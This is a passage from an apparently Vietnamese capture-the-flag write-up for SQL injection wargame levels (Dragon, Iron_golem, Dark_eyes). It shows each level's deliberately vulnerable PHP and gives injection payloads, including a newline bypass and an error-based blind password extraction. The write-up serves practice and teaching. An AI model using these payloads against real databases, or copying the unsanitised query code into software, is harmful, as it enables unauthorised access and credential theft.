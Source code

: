 \=> pw = 0000c6b00000c6550000ad73 => decrypt = 우왕굳

## Dragon

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

Dấu `#` ở bài này là comment đoạn query nên ta sẽ không nhập được password để bypass câu này thì ta chỉ cần xuống dòng mà xuống dòng trong urlencode là `%0a` nên ta sẽ có đoạn payload

\=>payload : /?pw='%0a and pw='j1s0o' or id = 'admin' -- -

## Iron\_golem(error based)

```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit(mysqli_error($db));
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```

payload = ' or if(ord(substr({pw},{i},1))={j},( select 1 union select 2),1)-- -

## Dark\_eyes (error based)

```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
```